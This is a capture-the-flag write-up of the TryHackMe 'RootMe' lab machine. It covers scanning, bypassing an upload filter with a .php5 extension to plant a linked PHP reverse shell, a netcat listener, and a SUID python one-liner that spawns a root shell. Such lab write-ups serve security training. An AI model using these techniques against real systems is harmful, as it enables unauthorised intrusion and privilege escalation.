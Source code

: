 ```yaml
---
layout: default
title: "TryHackMe - RootMe Writeup"
permalink: /writeups/tryhackme/rootme
---
```


![TryHackMe: RootMe (Easy)](images/RootMe.png)
<h1><ins>TryHackMe: RootMe Writeup</ins></h1>

**Date:** 11/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** RootMe\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - RootMe (Easy)](https://tryhackme.com/room/rrootme) 

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 16:53 GMT
Nmap scan report for 10.10.69.147
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I see that there is a website hosted on port 80. Browsing to the website, it seems to just be a simple page saying **Can you root me?**.

## Gobuster Scan
```
/index.php
/uploads
/css
/js
/panel
```
**/uploads** and **/panel** look interesting.
- **/uploads** is an empty directory
- **/panel** has a file upload form

I'm guessing that files that get uploaded can be accessed in the **/uploads** directory. I try to upload a simple text file to see if this is true, and it is.

## Foothold
Now I know that files that are uploaded can be accessed directly from te **/uploads** directory, and I know that the webserver is running on PHP (as the index page is named **index.php**), I will try upload a **.php** file to get code execution.

My first attempt at uploading a PHP file was blocked as files with a **.php** file extensions are not allowed. So I open up BurpSuite Intruder to test different file extensions to see which one works. I find that **.php5** works. Now I know that I can upload a **.php5** file, it's time to upload a PHP reverse shell.

I like to use the PHP reverse shell made by `pentestmonkey` on GitHub. You can find it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

(Just make sure to change the IP and Port in the reverse shell, to your listener IP and Port, before saving it as a **.php5** file)

I then started a listener `nc -nvlp <port>`

It's time to upload the reverse shell and then activate it by browsing to the file in **/uploads**.

Now I have a shell on the machine and stabilize it using `python3 -c 'import pty;pty.spawn("/bin/bash")'` and I can see that I have a shell as `www-data`.

I find the user flag in `/var/www`. Now I have the user flag, it's time to become root!

## Privilege Escalation (root)
Running the command `find / -perm -4000 2>/dev/null`, to find SUID binaries I have access to, returns a long list of them. But one of them stands out above the rest `/usr/bin/python`. Python is not usually a SUID binary you would see on Linux machines. I can abuse this using a technique that can be found on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

The command: `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

Success! I run the command and it spawns a root shell!

I change directory to **/root** and find the root flag to complete the CTF.
